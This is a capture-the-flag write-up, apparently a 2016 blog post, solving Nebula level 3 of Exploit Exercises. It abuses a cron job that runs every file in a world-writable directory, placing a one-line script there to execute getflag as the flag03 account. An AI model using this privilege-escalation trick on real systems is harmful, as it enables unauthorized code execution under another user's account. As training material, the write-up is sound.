 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 3"
date:   2016-07-30 12:33:00 +0200
categories: security exercises
---
```


> Check the home directory of flag03 and take note of the files there.
> There is a crontab that is called every couple of minutes.

* * *

We'll start by examining the files in `flag03`'s home directory.

~~~ bash
level03@nebula:~$ ls -al /home/flag03/
total 6
drwxr-x--- 3 flag03 level03  103 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag03 flag03   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag03 flag03  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag03 flag03   675 2011-05-18 02:54 .profile
drwxrwxrwx 2 flag03 flag03     3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03    98 2011-11-20 21:22 writable.sh
~~~

~~~ bash
level03@nebula:~$ cat /home/flag03/writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
~~~

Okay, so we have a directory we can write to, and a script that will gladly execute whatever is in that directory.

The easiest way to run the `getflag` executable would be to put this simple script into the `writable.d` directory.

~~~ bash
level03@nebula:~$ echo "getflag > /tmp/getflag.log" > /home/flag03/writable.d/getflag
~~~

Now we wait a few minutes. The cron job is executed every 3 minutes (you can check this by adding a script that runs `crontab -l > /tmp/crontab.log` or similar).

~~~ bash
level03@nebula:~$ cat /tmp/getflag.log
You have successfully executed getflag on a target account
~~~

You could also solve this by changing the password of the `level03` user, but that might be a bit more intrusive :)
